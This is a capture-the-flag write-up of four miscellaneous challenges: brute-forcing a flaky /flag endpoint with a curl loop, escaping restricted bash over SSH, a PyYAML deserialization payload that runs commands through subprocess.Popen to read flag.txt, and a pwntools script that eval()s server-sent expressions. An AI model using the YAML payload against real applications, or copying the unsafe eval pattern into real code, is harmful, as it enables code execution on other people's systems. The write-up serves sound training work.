 # misc

## Persistence
> Solved by Legend

Challenge description


> Thousands of years ago, sending a GET request to /flag would grant immense power and wisdom. Now it's broken and usually returns random data, but keep trying, and you might get lucky... Legends say it works once every 1000 tries.

In this challenge we are given `IP` along with `Port Number`  to connect to the challenge and retrieve the flag using the `GET` request.

Initially checking the URL it gave something gibberish.

![](https://i.imgur.com/Yf7EiWW.png)


The hint of the challenge was that the `/flag` works once in 1000 tries. So I made a loop to do the same.


    for i in `seq 1 1000`; do curl -s http://68.183.45.143:31981/flag | grep -i "HTB" ; done

And after running for sometime it gave the flag.

![](https://i.imgur.com/WbpHGPu.png)

----------

## Restricted
> Solved by Legend

Challenge description


> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

In this challenge we are given SSH shell escape to get the flag.

Going through the docker file we can get some info of what configuration is done to the challenge

1. The shell is set to `rbash` which basically means restricted bash.


    RUN chown -R restricted:restricted /home/restricted


1. The flag file will have some random value appended to it as written in the config


    RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

Since it is a SSH escape challenge I remembered that I have solved a challenge like this before so first thing I did was to check if we can execute remote code without opening the SSH shell.

![](https://i.imgur.com/KAPfFSz.png)


It worked!! So now all I had to do was look for the flag file name as it gets changed and cat it. 

![](https://i.imgur.com/6Tce4Cu.png)


We got the flag.

![](https://i.imgur.com/MQyffnB.png)

----------

## Hijack
> Solved by Starry-Lord


![](https://i.imgur.com/c1ZeYkj.png)


Connect with nc to the docker instance, then create a config and decode the base 64. We can see it gives back YAML syntax so we can try to inject commands with subprocess.Popen:

After base64 encoding it, and using the “Load config” option, This worked!

    !!python/object/apply:subprocess.Popen
    - ls

I had to dig a little more to find how to give arguments to the command:


    !!python/object/apply:subprocess.Popen
    - !!python/tuple
      - ls
      - -la

  
And solved:

```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
  - flag.txt
```

![](https://i.imgur.com/b0l46TJ.png)

----------

## Remote Computation
> Solved by : thewhiteh4t


    #!/usr/bin/env python3
    
    from pwn import *
    
    host = '188.166.152.84'
    port = 30603
    conn = remote(host, port)
    conn.recvuntil(b'>').decode()
    conn.send(b'1\n')
    
    for x in range(500):
        ques_line = conn.recv().decode()
        ques = ques_line.split(': ')[1].split(' = ?')[0]
        try:
            ans = round(eval(ques), 2)
            if ans < -1337.00 or ans > 1337.00:
                print('Got Memory Error')
                ans = 'MEM_ERR'
        except SyntaxError:
            print('Got Syntax Error')
            ans = 'SYNTAX_ERR'
        except ZeroDivisionError:
            print('Got Zero Error')
            ans = 'DIV0_ERR'
        ans = str(ans).encode()
        conn.sendline(ans)
        print(f'Answered {x} questions')
    
    print(conn.recvuntil(b'}').decode())
    


![](https://i.imgur.com/AVK9rWh.png)

----------

